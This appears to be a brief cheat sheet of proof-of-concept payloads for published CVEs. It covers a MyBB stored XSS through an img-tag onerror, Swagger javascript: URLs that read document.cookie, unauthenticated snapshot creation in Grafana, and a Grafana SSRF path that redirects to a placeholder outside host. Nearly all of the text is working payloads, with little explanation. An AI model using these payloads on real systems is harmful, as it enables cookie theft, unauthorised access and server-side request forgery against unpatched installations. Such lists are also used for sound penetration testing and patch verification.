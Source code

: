 **(CVE-2021-27889)** MyBB forum stored XSS POC: ``[img]http://xyzsomething.com/image?)http://x.com/onerror=alert(1);//[/img]``

**(CVE-2021-24175)** WP plugin Elementor Page Builder:
https://wpscan.com/vulnerability/c311feef-7041-4c21-9525-132b9bd32f89

**(CVE-unknown)** Swagger XSS old versions (file.json content):

``swagger: "2.0",
info: 
  title: "Swagger Sample App",
  description: "Please to click Terms of service"
  termsOfService: "javascript:alert(document.cookie)"
  contact: 
    name: "API Support",
    url: "javascript:alert(document.cookie)",
    email: "javascript:alert(document.cookie)"
  version: "1.0.1"``

######Grafana:

**(CVE-2019-15043) Unauthenticated API access:**

``POST /api/snapshots``
``{"dashboard": {"editable":false,"hideControls":true,"nav":[{"enable":false,"type":"timepicker"}],"rows": [{}],"style":"dark","tags":[],"templating":{"list":[]},"time":{},"timezone":"browser","title":"Home","version":5},"expires": 3600}``

**(CVE-2020-13379) SSRF:**

``/avatar/test%3fd%3dredirect.rhynorater.com%25253f%253b%252fbp.blogspot.com%252fYOURHOSTHERE``
